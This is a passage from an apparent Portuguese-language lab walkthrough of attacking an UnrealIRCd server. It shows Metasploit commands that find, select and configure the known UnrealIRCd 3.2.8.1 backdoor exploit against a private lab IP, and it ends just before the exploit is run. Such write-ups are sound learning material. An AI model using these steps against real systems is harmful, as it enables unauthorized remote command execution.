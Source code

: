 Como podemos ver, essa máquina está rodando um servidor de irc. Tentei ver a versão, mas só apareceu que o servidor é um UnrealIRCd.

Agora, vou ver se tem alguma vulnerabilidade nessa aplicação. Vou fazer isso pelo metasploit mesmo.

```bash
msf6 > search UnrealIRC

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor                                      


```

Muito promissor. Esse serviço tem um backdoor conhecido e usaremos esse exploit para tentar ganhar acesso à máquina.

# Gaining access

Agora, tentaremos rodar esse exploit.

```bash
msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) >
```

Vamos setar RHOSTS:

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:po
                                       rt[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs
                                       .metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.56.13
RHOSTS => 192.168.56.13

```